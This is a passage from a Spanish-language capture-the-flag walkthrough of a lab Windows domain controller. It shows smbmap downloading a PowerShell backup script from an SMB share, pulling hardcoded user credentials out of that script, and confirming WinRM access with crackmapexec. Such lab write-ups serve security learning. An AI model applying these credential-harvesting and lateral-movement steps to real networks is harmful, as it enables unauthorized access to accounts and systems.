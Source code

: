 ```bash
	dr--r--r--                0 Thu Feb 27 12:38:34 2025	.
	dr--r--r--                0 Thu Feb 27 12:38:34 2025	..
	fr--r--r--             1957 Thu Feb 27 12:38:34 2025	backup.ps1
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
[*] Closed 1 connections
```

Vamos a descargarlo:
```bash
smbmap -H 192.168.56.10 -u 'victor.rodriguez' -p '***********' --download IT/Scripts/backup.ps1 --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
[+] Starting download: IT\Scripts\backup.ps1 (1957 bytes)                                                                
[+] File output to: /../TheHackersLabs/BlackGold/content/192.168.56.10-IT_Scripts_backup.ps1
[*] Closed 1 connections
```

Y revisando su contenido, encontraremos las credenciales de otro usuario:
```powershell
$sourceDirectory = "C:\Confidenciales"
$destinationDirectory = "E:\Backups\Confidenciales"

$username = "emma.johnson"
$password = ConvertTo-SecureString "contraseña_emma.johnson" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)

$emailFrom = "emma.johnson@neptune.thl"
$emailTo = "emma.johnson@neptune.thl"
$smtpServer = "smtp.neptune.thl"
$smtpPort = 587
$emailSubject = "Notificación de Backup Completo"
...
...
```
Si recordamos, ese usuario pertenece al **grupo Remote Maganement Users**.

Comprobemos si podemos usar estas credenciales para entrar a la máquina víctima con la herramienta **evil-winrm**:
```bash
crackmapexec winrm 192.168.56.10 -u 'emma.johnson' -p '************'
SMB         192.168.56.10   5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:neptune.thl)
HTTP        192.168.56.10   5985   DC01             [*] http://192.168.56.10:5985/wsman
WINRM       192.168.56.10   5985   DC01             [+] neptune.thl\emma.johnson:************* (Pwn3d!)
```
Excelente, las podemos usar.
